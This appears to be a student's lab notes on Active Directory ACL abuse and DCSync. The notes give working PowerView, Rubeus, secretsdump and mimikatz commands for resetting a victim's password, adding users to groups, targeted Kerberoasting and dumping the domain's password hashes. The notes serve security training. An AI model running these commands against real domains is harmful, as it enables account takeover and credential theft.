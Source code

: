 ## What are ACLs 
Lists that define who has access to what assets/ resource.
The Rules By themselves are called Access Control Entities 
#### Types of ACLs
1. Discretionary Access Control List (DACL)
	Defines which security principals are granted or denied access to an object.
	When a user requests access to an object the system checks for a DACL, without it, the user is given full rights. 
	If a DACL exists but does not have entries the system will deny access to all users.
	![[DACL settings.png]]
1. System Access Control List (SACL)
	Allow administrators to log access attempts made to secured objects. 
	![[Security Settingss.png]]
#### Access Control Entities 
|**ACE**|**Description**|
|---|---|
|`Access denied ACE`|Used within a DACL to show that a user or group is explicitly denied access to an object|
|`Access allowed ACE`|Used within a DACL to show that a user or group is explicitly granted access to an object|
|`System audit ACE`|Used within a SACL to generate audit logs when a user or group attempts to access an object. It records whether access was granted or not and what type of access occurred|
##### Format of a ACE 
1. Security Identifier (SID) of the user/group that has access to the object
2. A Flag for denoting the type of ACE (table above)
3. A set of flags specify whether or not a child containers/ objects can inherit the given ACE 
4. An [access mask](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/7a53f60e-e730-4dfe-bbe9-b21b62eb790b?redirectedfrom=MSDN) which is a 32 bit value that defines the rights granted to an object. 
### Importance of ACEs
Attackers can utilise ACE entries to either further access or establish persistence.
They cannot be detected by vulnerability scanning tools and can go unchecked for many years. 

Can be viewed with BloodHound and abusable with Power View 
- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`
### Possible ACE attack methods 
![[Writeing DACL.png]]
## ACL Enumeration
### PowerView
Very Time consuming:
```powershell
Find-InterestingDomainAcl
```
Use a User that we have Control over:
```powershell
Import-Module .\PowerView.ps1

$sid = Convert-NameToSid <user>

Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

Google Object ACE Type.  or do a Reverse Search:
```powershell
 $guid= "00299570-246d-11d0-a768-00aa006e0529"
```

```powershell
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
**Reverse Search with PowerView**
```powershell
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```
**Make a List of Domain Users**
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
**Useful Foreach Loop**
Read the File from before
```powershell
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\<USERNAME CHANGE>'}}
```

***Loop Through this process as needed***
## Abusing ACL 
### Example Attack
#### Authenticate as the initial user
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\<user>', $SecPassword) 
```
#### Leverage GenericAll right
Create a secure string that will represent the password for the target user 
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Change the Users Password
```powershell
 Import-Module .\PowerView.ps1
```

```powershell
 Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
#### Authenticate as new user
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
#### Add User to the target group
List users 
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

```powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
Confirm addition 
```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

#### Perform kerbroasting on target user 
Create a fake SPN 
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

```powershell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
Crack the hash

#### Clean up 
Remove the fake SPN 
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
Remove the user from the group 
```powershell
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```
Reset the password 

## DCSync
### Description
Technique for stealing AD password databases using the Directory Replication Service Remote Protocol
Allows an attacker to mimic a DC to retrieve NTLM 

Need to have rights to perform domain replication.
	Replicating Directory Changes and Replicating Directory Changes All permissions set.
	Domain/Enterprise Admins and default domain administrators have this right by default.
### View Rights 
![[DC Permissons.png]]

```powershell
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```
**or**
Do this in powerview using [Get-ObjectACL](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/)
```powershell
$sid= "<users SID>"
```

```powershell
> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

### Extracting Hashes using Secrets Dump
```shell
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```
Optional flags:
	-just-dc-ntlm
	-just-dc-user
	-pwd-last-set
	-history
	-user-status

If we see ..cleartext, this is accounts with [reversible encryption](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption)
Key to decrypt the RC4 is stored in the [registry](https://learn.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)
#### View users with reversible encryption
```powershell
 Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```
Check for options
```powershell
 Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
Display the password 
```shell
cat inlanefreight_hashes.ntds.cleartext 
```
### Using MimiKatz
```cmd
.\mimikatz.exe
```

```cmd
sadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
